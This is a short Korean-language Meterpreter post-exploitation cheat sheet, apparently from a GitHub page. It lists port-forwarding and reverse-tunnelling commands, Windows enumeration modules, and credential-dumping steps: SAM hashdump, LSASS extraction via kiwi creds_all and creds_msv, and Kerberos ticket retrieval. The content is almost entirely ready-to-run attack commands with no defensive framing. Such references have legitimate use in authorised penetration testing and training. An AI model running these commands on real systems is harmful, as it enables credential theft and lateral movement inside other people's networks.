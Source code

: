 ### 포트포워딩 및 터널링

```bash
# 로컬 포트포워딩
meterpreter > portfwd add -l 8080 -p 80 -r 192.168.1.100

# 포트포워딩 목록
meterpreter > portfwd list

# 포트포워딩 삭제
meterpreter > portfwd delete -l 8080

# 역방향 터널링
meterpreter > portfwd add -R -l 4444 -p 4444 -r 127.0.0.1
```

## 정보 수집 (Post-Exploitation)

### 시스템 정보 수집

```bash
# 환경 변수
meterpreter > getenv

# 설치된 프로그램 목록
meterpreter > run post/windows/gather/enum_applications

# 사용자 계정 정보
meterpreter > run post/windows/gather/enum_logged_on_users

# 네트워크 정보 상세 수집
meterpreter > run post/windows/gather/enum_shares

# 레지스트리 정보
meterpreter > run post/windows/gather/enum_services
```

### 크리덴셜 덤핑

```bash
# SAM 해시 덤프
meterpreter > hashdump

# LSASS에서 크리덴셜 추출
meterpreter > load kiwi
meterpreter > creds_all

# 특정 사용자 패스워드
meterpreter > creds_msv

# Kerberos 티켓
meterpreter > kerberos
```
